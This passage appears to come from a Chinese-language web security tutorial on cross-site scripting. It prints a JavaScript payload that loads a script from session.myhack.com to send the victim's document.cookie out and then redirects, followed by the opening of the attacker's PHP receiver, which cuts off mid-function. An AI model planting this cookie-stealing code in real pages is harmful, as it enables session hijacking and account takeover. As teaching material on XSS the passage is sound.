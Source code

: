 **代码2.3 跨站请求**    
这里为了将代码嵌入html，得将其写作一行，其简洁模式为：

```javascript
    var link = this;
    var head = document.getElementsByTagName("head")[0]; 
    var js = document.createElement("script"); 
    js.src = "http://session.myhack.com/httphack.php?cook="+encodeURIComponent(document.cookie); 
    js.onload = js.onreadystatechange = function(){ 
        if (!this.readyState || this.readyState == "loaded" || this.readyState == "complete") { 
            head.removeChild(js); 
            alert('开始跳转真正的地址');location.href=link.getAttribute("href");//
        }
    }; 
    head.appendChild(js); 
```

**代码2.4 跨站请求简洁版**
为了真正的体现他是超链接还是跳转到一个地址为妙，所以在简洁班中脚本加载结束后做了跳转，但是为了演示方便，我们在代码2.3中没有这么做。    
现在再点击链接`点击我，有惊喜！`，查看一下一下网络请求，会发现一个到session.myhack.com/httphack.php地址的请求，返回数据为`var data = {"code":0};`。
![loading-ag-250](images/cross_request.jpg)
**图2.3 跨站请求**

接着看看httphack.php干了啥：

```php
    <?php
    error_reporting(E_ALL);
    header("Content-type:application/javascript");

     function getRealIp()
    {
        $ip = '127.0.0.1';
        $ipname = array(
            'REMOTE_ADDR',
            'HTTP_CLIENT_IP',
            'HTTP_X_FORWARDED_FOR',
            'HTTP_X_FORWARDED',
            'HTTP_X_CLUSTER_CLIENT_IP',
            'HTTP_FORWARDED_FOR',
            'HTTP_FORWARDED'
        );
       foreach ($ipname as $value)
       {
           if (isset($_SERVER[$value]) && $_SERVER[$value]) {

                $ip = $_SERVER[$value];
                break;
```